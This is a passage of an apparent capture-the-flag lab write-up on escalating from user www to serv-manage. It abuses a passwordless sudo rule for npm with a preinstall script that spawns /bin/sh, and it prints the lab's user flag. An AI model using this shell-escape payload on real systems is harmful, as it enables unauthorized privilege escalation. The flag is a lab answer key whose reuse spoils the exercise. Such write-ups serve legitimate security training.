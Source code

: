 # Privilege Escalation → serv-manage

Navigate to `/home` directory and found that there is another user who called `serv-manage`

```
$ cd /home
$ ls -la
total 16
drwxr-xr-x  4 root        root        4096 Jan 24  2021 .
drwxr-xr-x 23 root        root        4096 Jan 24  2021 ..
drwxr-x--- 17 serv-manage serv-manage 4096 Jan 24  2021 serv-manage
drwxr-xr-x  7 www         www         4096 Jan 24  2021 www
```

Use `sudo -l` to view which commands could be executed by user `www`

```
$ sudo -l
Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
```

Research `npm` on `GTFOBins` → Use this payload to escalate the current user to `serv-manage`

```
$ TF=$(mktemp -d)
TF=$(mktemp -d)
$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
$ chmod 777 /tmp/tmp* -R
chmod 777 /tmp/tmp* -R
$ sudo -u serv-manage npm -C $TF --unsafe-perm i
sudo -u serv-manage npm -C $TF --unsafe-perm i

> @ preinstall /tmp/tmp.RHZ8tihHMR
> /bin/sh

$ id
id
uid=1000(serv-manage) gid=1000(serv-manage) groups=1000(serv-manage)
```

OK! Now we are `serv-manage` → Locate the `user.txt` file and get the user flag

```
$ cd /home/serv-manage
$ cat user.txt
THM{064640a2f880ce9ed7a54886f1bde821}
```

# Privilege Escalation → root
